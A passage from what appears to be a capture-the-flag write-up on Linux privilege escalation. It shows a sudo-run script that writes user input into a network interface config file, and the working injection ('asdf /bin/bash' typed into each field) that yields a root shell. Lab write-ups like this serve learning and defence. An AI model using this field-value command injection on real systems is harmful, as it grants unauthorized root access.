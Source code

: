 	for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
		echo "interface $var:"
		read x
		while [[ ! $x =~ $regexp ]]; do
			echo "wrong input, try again"
			echo "interface $var:"
			read x
		done
		echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
	done
	  
	/sbin/ifup guly0

And the contents of the "ifcfg-guly" script are here:

	/etc/sysconfig/network-scripts
	less ifcfg-guly
	DEVICE=guly0
	ONBOOT=no
	NM_CONTROLLED=no
	NAME=ps /tmp/foo
	PROXY_METHOD=asodih
	BROWSER_ONLY=asdoih
	BOOTPROTO=asdoih

I ran the script with sudo and assume I had to do something with the inputs to exploit something there. I spent quite a bit of time playing around with this. Enumerating more and more. I took a break and came back the following day to work at this one more. 

In the end I started just manually fuzzing the inputs in the changename script and got root. I made tons of attempts before something landed root. This ended up being it:

	sudo /usr/local/sbin/changename.sh
	interface NAME:
	asdf /bin/bash
	interface PROXY_METHOD:
	asdf /bin/bash
	interface BROWSER_ONLY:
	asfd /bin/bash
	interface BOOTPROTO:
	asdf /bin/bash
	whoami
	root
